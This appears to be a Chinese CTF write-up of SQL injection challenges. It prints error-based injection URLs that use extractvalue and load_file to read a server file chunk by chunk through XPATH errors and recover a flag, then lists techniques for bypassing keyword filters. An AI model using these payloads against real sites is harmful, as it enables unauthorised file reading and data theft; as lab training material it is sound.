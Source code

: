 查找文件中指定字符串


```
http://103.238.227.13:10088/?id=1/**/and/**/extractvalue(1,concat(0x7e,(select/**/(left(load_file(0x2f7661722f746573742f6b65795f312e706870),32))),0x7e))
```
（图2）

发现页面是这样的，怎么都出不来字符串，再看writeup，原来藏在网页源代码里面。

（图3）

接下来就是一点点地试、拼接、找flag
```
http://103.238.227.13:10088/?id=1%0aand%0aextractvalue(31,concat(0x7e,(select%0a(substring(load_file(0x2f7661722f746573742f6b65795f312e706870),32,64))),0x7e))
XPATH syntax error: '~kfdsaifdsafdsafdsafdsafkdsa;fds'
```
```
http://103.238.227.13:10088/?id=1%0aand%0aextractvalue(31,concat(0x7e,(select%0a(substring(load_file(0x2f7661722f746573742f6b65795f312e706870),64,96))),0x7e))
XPATH syntax error: '~fdsafsdafdsafas0hfdsg9Flag:"724'
```
```
http://103.238.227.13:10088/?id=1%0aand%0aextractvalue(31,concat(0x7e,(select%0a(substring(load_file(0x2f7661722f746573742f6b65795f312e706870),96,128))),0x7e))
XPATH syntax error: '~f5a7fd1de602b30e6f39aea6193a"fs'
```
```
http://103.238.227.13:10088/?id=1%0aand%0aextractvalue(31,concat(0x7e,(select%0a(substring(load_file(0x2f7661722f746573742f6b65795f312e706870),128,149))),0x7e))
XPATH syntax error: '~afsafdsafdsafdsafa ?> ~'
```
拼接去除重复的，得到flag
Flag:"724f5a7fd1de602b30e6f39aea6193a

## 4.9记录（1）
```
SQL_3
访问参数为：?id=x
查找表为key的数据表，id=1值hash字段值
```
（图4）


从题目中可以看出来很多注入用的关键字都被过滤掉了，赶紧翻出表哥的博客（++http://p0sec.net/index.php/archives/4/++）看如何绕过

```
SQL绕过主要分为以下几类：
1.大小写绕过
2.简单编码绕过
3.注释绕过
4.分隔重写绕过
5.Http参数污染(HPP)
6.使用逻辑运算符 or /and绕过
7.比较操作符替换
8.同功能函数替换
9.盲注无需or和and
10.加括号
11.缓冲区溢出绕过
```
